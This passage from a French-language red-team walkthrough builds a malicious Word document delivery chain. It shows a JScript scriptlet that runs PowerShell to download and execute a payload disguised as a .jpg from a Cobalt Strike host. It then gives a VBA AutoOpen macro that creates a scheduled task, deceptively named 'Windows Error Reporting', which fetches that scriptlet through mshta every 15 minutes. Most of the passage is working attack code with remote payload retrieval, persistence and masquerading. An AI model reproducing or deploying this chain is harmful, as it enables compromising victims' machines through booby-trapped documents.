 ```
        <method name="Exec"></method>
    </public>
    <script language="JScript">
        <![CDATA[
            function Exec()
            {
                var r = new ActiveXObject("WScript.Shell").Run("powershell.exe iex (iwr 'http://192.168.1.94:80/updates/microsoft.jpg')");
            }
        ]]>
    </script>
</scriptlet>
```

Héberger le fichier sur le serveur Cobalt Strike: `/updates/microsoftftp.jpg`

![7a55546d56f094731560e9ff2c0c4718.png](/img/7a0ca747da7e4562b8be7c2ccaf3cfd9.png)

7. Macro Word

La dernière étape consiste à créer une macro VBA malicieuse dans un doc Word. Cette macro créera une tache planifiée qui déclanchera les étapes que nous avons construit précédemment

Code:

```
Sub AutoOpen()
	Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://192.168.1.94:80/updates/microsoftftp.jpg').Exec();close();"" /mo 15 /F")
End Sub
```
